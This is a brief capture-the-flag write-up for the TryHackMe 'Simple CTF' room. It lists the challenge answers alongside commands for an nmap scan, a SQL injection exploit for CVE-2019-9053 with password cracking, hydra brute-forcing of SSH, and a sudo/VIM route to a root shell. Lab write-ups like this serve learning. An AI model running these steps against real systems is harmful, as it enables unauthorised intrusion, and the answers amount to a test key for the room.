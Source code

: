 
# THM-Simple CTF write-up
**Simple CTF**

https://tryhackme.com/room/easyctf

**Task 1 Simple CTF**

 
**How many services are running under port 1000?**

  ~#nmap -A [IP Address] -oA scan.txt
  
A. 2


 
**What is running on the higher port?** 

A. SSH


**What's the CVE you're using against the application?**


A. CVE-2019-9053


**To what kind of vulnerability is the application vulnerable?**

A. SQLi


**What's the password?**

    ~#python 46635.py -u http://10.10.176.184/simple/ --crack -w /usr/share/wordlists/dirb/common.txt
  
  ~#hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://10.10.176.184:2222



**Where can you login with the details obtained?**


    ~# ssh -p2222 mitch@10.10.176.184

**What's the user flag?**




**Is there any other user in the home directory? What's its name?**

sunbath


**What can you leverage to spawn a privileged shell?**

   ~#sudo -l
 
A. VIM

**What's the root flag?**






